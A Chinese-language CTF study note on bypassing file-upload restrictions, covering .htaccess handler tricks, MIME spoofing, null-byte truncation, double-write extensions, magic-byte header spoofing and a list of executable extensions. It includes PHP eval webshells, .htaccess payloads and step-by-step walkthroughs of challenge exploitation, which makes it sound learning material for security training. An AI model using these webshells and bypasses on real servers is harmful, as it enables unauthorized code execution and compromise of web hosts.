

<center>上传漏洞杂项</center>

> 有一种奇怪的绕过，叫做bugku的题，`求getshell`。
>
> 通过后缀，MIME，和请求头中的content-type绕过


#### 1.	.htaccess

[文章](https://www.cnblogs.com/anweilx/p/12523582.html)

htaccess文件是Apache服务器中的一个配置文件，

它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能


可以通过上传此文件来定义apache解析规则，这样就可以把`.jpg`文件解析为`php`文件了。


有两种方法来利用此文件


1. 方法1

   在`.htaccess`文件中写入如下：

   ```
   # FileMatch 参数即为文件名的正则匹配
   <FilesMatch "ccess">
     SetHandler application/x-httpd-php
   </FilesMatch>
   ```

   > 这里的FilesMatch后面的参数是，文件的正则匹配


​	 木马文件`ccess`写入如下：

```
<?php @eval($POST['name']);?>
```


如此，便能上传不带`.php`后缀的文件。但是却能解析到`.php`文件了。这其实算是解析漏洞


2. 

   在`.htaccess`文件中写入如下：

   ```
   AddType application/x-httpd-php .jpg
   ```

   > 通过这样的方式，就能把jpg文件解析为`php`文件


​	木马文件`cc.jpg`中写入如下：

```
<?php @eval($_POST['name']);?>
```


原理如下：

```undefined
AddType application/x-httpd-php .php .phtml .phps .php5 .pht
```

关于AddType命令的作用解释如下

> AddType 指令
>  作用：在给定的文件扩展名与特定的内容类型之间建立映射
>  语法：AddType MIME-type extension [extension] ...
>  AddType指令在给定的文件扩展名与特定的内容类型之间建立映射关系。MIME-type指明了包含extension扩展名的文件的媒体类型。
>  AddType 是与类型表相关的，描述的是扩展名与文件类型之间的关系。


#### 2.	MIME绕过

​	

检测上传到服务器的文件类型，在 burp 抓包可以看到类似于 Content-Type: image/gif

修改：Content-Type: text/plain -> Content-Type: image/gif

像这种服务端检测http 包的Content-Type 都可以用这种类似的方法来绕过检测


#### 3.	00截断


 0x00 ， %00 ， /00 之类的截断，都是一样的，只是不同表示而已。

> 其实很多时候，%00截断  是截断 前端 传回 后端的路径。
>
> 一般都是对路径下手而不是图片名！！！


%00

在url中 %00 表示ascll码中的 0 ，而ascii中0作为特殊字符保留，表示字符串结束，所以当url中出现%00时就会认为读取已结束。

> 注意这是在url中


hex方法

也可以直接使用hex编码。打一个空格作为设置，然后请求头的hex编码里面把20改为00

> 20是空格的`hex`编码。hex使用的是十六进制。这样就能00截断


> 注意`%00`截断和`hex00`截断分别由不同的使用场景，很多时候只能用其中一种

##### %00截断

比如：

 https://xxx.com/upload/?filename=test.txt   此时输出的是test.txt 

 

加上 %00 

 https://xxx.com/upload/?filename=test.php%00.txt  此时输出的是test.php 

这样就绕过了后缀限制，可以上传webshell啦~

 

注：**php版本要 小于5.3.4** ，5.3.4及以上已经修复该问题

 


下面使用一道CTF题举例子：

​						CTF题后端代码如下

> 此题中，上传文件的存放路径，系统并不会告诉你

```
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];                //首先取到上传文件的扩展名$ext
    $whitelist = array("jpg", "png", "gif");   //将扩展名与白名单进行匹配，为jpg、png或gif才能通过第一次过滤
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;   //扩展名匹配之后，为上传的文件构造了一个新的存储路径$des
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

> 此处后端对文件名做了限制，采用重新修改文件名的方法。就是下面这个语句

`$des = $GET['road']."/".rand(10,99).data("YmdHis").".".$ext;`

看这里的话，后端对文件名做了处理，采用了重命名的方式。


而我们需要做的就是使用`%00`，这样的话从`$GET['road']`开始就会截断，后面的随机数和日期都不会取到

​		

如下图：


通过这种`%00`截断的方式，我们就可以绕过后端对文件的重命名。找到文件的位置

> 其实此处并不需要修改文件名，只需要修改get参数中的`road`值就行了


shell路径为：

```
http://challenge-17b4ab7bbed04dd5.sandbox.ctfhub.com:10080/upload/ccess.php
```


##### hex00截断


此处还是用一道CTF 题来示意

> 此题为`CGCTF`中的上传绕过。[链接](http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/index.html)
>
> 此题中并不需要getshell，只需要上传成功`.php`文件。即可弹出flag


此题中并没有把后端代码展示出来。


此题中，明显是后端验证


上传`.php`文件后，返回只允许jpg，png，git-后缀的图片。


上传`jpg`图片


尝试使用`%00`截断




> 此处可以看到。虽然用`%00`的方式，笔者成功的把文件上传了上去，但是路径不对。应该说，后端检测文件类型忽略掉了我们这里的图片处的%00。
>
> 这是笔者的一个知识误区。%00应该是从路径截断，而不是截断从图片名截断。
>
> (ps.当然，截断文件名的应该也有，我应该做过。)


此处笔者使用burp开始抓包看看


我们已经确定了此题中从文件名截断是不可取的。

这里我们看到了`/uploads/`，此处可以试着看看能不能%00截断


> 字有点小，可以去img文件夹看

此处可以看到的是。和从文件名下手是同样的结果。%00仍然没有起作用


此处笔者尝试使用`hex00`绕过。

首先把上图中的`%00`替换为空格。(ps.也就是`/uploads/1.php空格`)

然后再通过hex编码，把空格的hex编码`20`修改为`00`

> 00懂什么意思吧。就是ascii的第一位。代表截断的那位


修改好了过后，`Go`发送。就可以看到flag了


经此一役。确实我发现文件上传是我的弱项之一，有机会的话，可以试试大佬博客发现的`upload-labs`。

明天的话，还是看一下这个的原理。


#### 4.	双写绕过


文件上传的双写绕过和SQL注入的双写绕过的方式几乎一样。应为都是后端对特定字符串的截取。双写他们让字符串被截断后又能重组就好了。


例如：

​	`cc.php`写为`cc.pphphp`


这就是双写绕过


#### 5.	文件内容头绕过


有些检测上传文件是否为规定的图片文件。不但检测了文件类型，文件后缀，还有文件内容头的检测


```
例如：CTFHUB中文件上传-->文件头上传

https://www.ctfhub.com/#/skilltree

此题就会检测文件的内容头。
```


什么是文件的内容头喃,


百度百科解释如下：

```
　文件头是位于文件开头的一段承担一定任务的数据，一般都在开头的部分。头文件作为一种包含功能函数、数据接口声明的载体文件，用于保存程序的声明(declaration)，而定义文件用于保存程序的实现 (implementation)。
```


简单说白了，就是每种不同的格式文件中。为了向操作系统表示自己为什么格式的文件，通过在文件的最开始使用一段字符来向系统声明。


例如：如果你用`WinHex`打开png文件的话。你还会发现无论是哪个png文件。使用`WinHex`打开的话，前4个ascii十六进制的值都为`89 50 4e 47`。(ps.这四个ascii十六进制数，表示`?PNG`。此处的?表示打不出来，而不是问号)


上面的CTF题中就通过这种取文件头的方式，来判断上传的文件究竟是不是限制的文件。


> 注意，此处的文件头并不影响文件后缀是什么，也就说我们文件头修改为`89 50 4e 47`，但是文件后缀还是php。也是能够通过检测并且执行的。


如果想绕过的话，使用`WinHex`或`burp suite`修改文件头，像这题，文件起始位置添加`89 50 4e 47`就能绕过了。这样，后端因为只判断文件头和文件类型，并不判断文件后缀，这样我们就可以通过CTF题了


#### 6.	文件后缀绕过

当然这个是黑名单绕过


众所周知。就像`.htaccess`中写的一样。网站配置文件`.htaccess`中可以把`.jpg`后缀解析为`.php`。也能够把一些特殊的后缀解析为`.php`文件。


如有些`.htaccess`文件中默认就有下面这行：

```
AddType application/x-httpd-php .php .phtml
```


这样的话，就可以通过上传`.phtml`文件就能够解析为php了。


当然，其实不止这些。还有一些常用的可能被解析为脚本文件的后缀如下：

```
.php .php5 .php4 .php3 .php2 .php1 .html .htm .phtml .pHp .pHp5 .pHp4 .pHp3 .pHp2 .pHp1 .Html .Htm .pHtml .jsp .jspa .jspx .jsw .jsv .jspf .jtml .jSp .jSpx .jSpa .jSw .jSv .jSpf .jHtml .asp .aspx .asa .asax .ascx .ashx .asmx .cer .aSp .aSpx .aSa .aSax .aScx .aShx .aSmx .cEr .sWf .swf
```

> 做CTF或渗透测试的话，可以试试